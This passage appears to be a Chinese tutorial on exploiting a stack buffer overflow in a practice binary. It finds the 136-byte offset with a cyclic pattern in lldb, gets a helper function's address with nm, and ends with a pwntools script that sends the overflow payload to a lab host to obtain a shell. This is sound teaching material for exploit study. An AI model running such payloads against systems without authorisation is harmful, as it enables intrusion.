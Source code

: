 #### 获取到溢出偏移

用 lldb 进行调试

```
python2 pattern.py create 150
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
```

发现溢出字符串长度为 136+ret\_address

#### 获取 callsystem 函数地址

因为代码中存在辅助函数 callsystem，直接获取地址

```
panda@ubuntu:~/Desktop/test$ lldb linux\_x64\_test1
(lldb) target create "linux\_x64\_test1"
Current executable set to 'linux\_x64\_test1' (x86\_64).
(lldb) run
Process 117360 launched: '/home/panda/Desktop/test/linux\_x64\_test1' (x86\_64)
Hello, World
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
Process 117360 stopped
\* thread #1: tid = 117360, 0x00000000004005e7 linux\_x64\_test1\`vulnerable\_function + 32, name = 'linux\_x64\_test1', stop reason = signal SIGSEGV: invalid address (fault address: 0x0)
    frame #0: 0x00000000004005e7 linux\_x64\_test1\`vulnerable\_function + 32
linux\_x64\_test1\`vulnerable\_function:
->  0x4005e7 <+32>: retq

linux\_x64\_test1\`main:
    0x4005e8 <+0>:  pushq  %rbp
    0x4005e9 <+1>:  movq   %rsp, %rbp
    0x4005ec <+4>:  subq   $0x10, %rsp
(lldb) x/xg $rsp
0x7fffffffdd58: 0x3765413665413565

python2 pattern.py offset 0x3765413665413565
hex pattern decoded as: e5Ae6Ae7
```

#### 编写并测试利用\_提权

pwntools 是一个二进制利用框架，可以用 python 编写一些利用脚本，方便达到利用漏洞的目的，当然也可以用其他手段。

```
panda@ubuntu:~/Desktop/test$ nm linux\_x64\_test1|grep call
00000000004005b6 T callsystem
```

测试利用拿到 shell

```
import pwn

# p = pwn.process("./linux\_x64\_test1")
p = remote('172.16.36.174', 10002)
callsystem\_address = 0x00000000004005b6
payload="A"\*136 + pwn.p64(callsystem\_address)

p.send(payload)
p.interactive()
```
